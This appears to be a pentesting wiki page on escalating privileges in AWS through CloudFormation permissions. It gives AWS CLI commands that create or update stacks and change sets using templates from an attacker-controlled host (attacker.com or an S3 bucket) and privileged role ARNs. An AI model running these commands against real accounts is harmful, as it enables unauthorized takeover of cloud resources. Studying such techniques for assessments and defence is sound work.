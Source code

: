 # AWS - Cloudformation Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## cloudformation

For more information about cloudformation check:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### `iam:PassRole`, `cloudformation:CreateStack`

An attacker with these permissions **can escalate privileges** by crafting a **CloudFormation stack** with a custom template, hosted on their server, to **execute actions under the permissions of a specified role:**

```bash
aws cloudformation create-stack --stack-name <stack-name> \
    --template-url http://attacker.com/attackers.template \
    --role-arn <arn-role>
```

In the following page you have an **exploitation example** with the additional permission **`cloudformation:DescribeStacks`**:

{{#ref}}
iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md
{{#endref}}

**Potential Impact:** Privesc to the cloudformation service role specified.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

In this case you can a**buse an existing cloudformation stack** to update it and escalate privileges as in the previous scenario:

```bash
aws cloudformation update-stack \
    --stack-name privesc \
    --template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
    --role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
    --capabilities CAPABILITY_IAM \
    --region eu-west-1
```

The `cloudformation:SetStackPolicy` permission can be used to **give yourself `UpdateStack` permission** over a stack and perform the attack.

**Potential Impact:** Privesc to the cloudformation service role specified.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

If you have this permission but **no `iam:PassRole`** you can still **update the stacks** used and abuse the **IAM Roles they have already attached**. Check the previous section for exploit example (just don't indicate any role in the update).

The `cloudformation:SetStackPolicy` permission can be used to **give yourself `UpdateStack` permission** over a stack and perform the attack.

**Potential Impact:** Privesc to the cloudformation service role already attached.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

An attacker with permissions to **pass a role and create & execute a ChangeSet** can **create/update a new cloudformation stack abuse the cloudformation service roles** just like with the CreateStack or UpdateStack.

The following exploit is a **variation of the**[ **CreateStack one**](./#iam-passrole-cloudformation-createstack) using the **ChangeSet permissions** to create a stack.

```bash
aws cloudformation create-change-set \
    --stack-name privesc \
    --change-set-name privesc \
    --change-set-type CREATE \
    --template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
    --role arn:aws:iam::947247140022:role/CloudFormationAdmin \
    --capabilities CAPABILITY_IAM \
    --region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
    --change-set-name privesc \
    --stack-name privesc \
    --region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
    --stack-name privesc \
    --region eu-west-1
```

The `cloudformation:SetStackPolicy` permission can be used to **give yourself `ChangeSet` permissions** over a stack and perform the attack.

**Potential Impact:** Privesc to cloudformation service roles.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

This is like the previous method without passing **IAM roles**, so you can just **abuse already attached ones**, just modify the parameter:

```
--change-set-type UPDATE
```

**Potential Impact:** Privesc to the cloudformation service role already attached.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

An attacker could abuse these permissions to create/update StackSets to abuse arbitrary cloudformation roles.

**Potential Impact:** Privesc to cloudformation service roles.

### `cloudformation:UpdateStackSet`

An attacker could abuse this permission without the passRole permission to update StackSets to abuse the attached cloudformation roles.

**Potential Impact:** Privesc to the attached cloudformation roles.

## References

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{{#include ../../../../banners/hacktricks-training.md}}
